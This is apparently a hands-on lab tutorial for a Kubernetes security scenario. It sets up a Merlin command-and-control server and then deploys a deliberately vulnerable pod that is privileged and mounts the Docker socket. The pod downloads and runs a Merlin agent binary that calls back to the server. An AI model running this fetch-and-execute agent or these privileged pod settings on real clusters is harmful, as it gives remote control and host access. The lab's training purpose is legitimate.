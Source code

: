 Here we will see the basic settings of Kubessss.

## Basics of Kubessss

#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `echo $HOST_IP`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute T1}}

Start the server `./merlinServer-Linux-x64`{{execute T1}}.    
To view the menu, run `help`{{execute}} and to see the list of modules run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  


#### Agent

`Open`{{execute T3}} new terminal on the master and start this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
	volumes:
	- name: docker-sock
	  hostPath:
	    path: /var/run/docker.sock
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/g3rzi/katacodaScenario/releases/download/0.1/merlinAgent-Linux-x64 && chmod +x merlinAgent-Linux-x64 && ./merlinAgent-Linux-x64 -url https://$HOST_IP:443", "sleep infinity" ]
    securityContext:
      privileged: true
    volumeMounts:
	- name: docker-sock
	  mountPath: /var/run/docker.sock
EOF```{{execute T2}}  



Go to the first terminal of the master and check if a new connection was received with the message "New authenticated agent checkin..".  
Once you see it, run `main`{{execute T1}} and then `agent list`{{execute T1}} to see the new connection details.  

